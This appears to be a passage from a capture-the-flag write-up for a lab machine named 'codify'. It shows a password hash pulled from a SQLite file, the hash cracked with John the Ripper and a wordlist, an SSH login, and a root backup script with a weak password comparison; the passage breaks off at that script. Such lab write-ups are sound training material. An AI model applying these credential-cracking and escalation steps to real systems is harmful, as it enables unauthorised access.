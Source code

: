 There is this sqlite database file:
```bash
svc@codify:/var/www$ strings ./contact/tickets.db
strings ./contact/tickets.db
SQLite format 3
otableticketstickets
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
        tableusersusers
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    ))
indexsqlite_autoindex_users_1users
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
joshua
users
tickets
Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open
Tom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```

Let's try cracking the hash: `john -w=/usr/share/dict/rockyou.txt hash.txt``
```bash
...
Press 'q' or Ctrl-C to abort, almost any other key for status
**************       (?)
```
And we are in!!
```bash
../p8/codify➤ ssh joshua@codify.htb
...
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

## Root flag
So we have this sudo permission:
```bash
...
User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh


joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```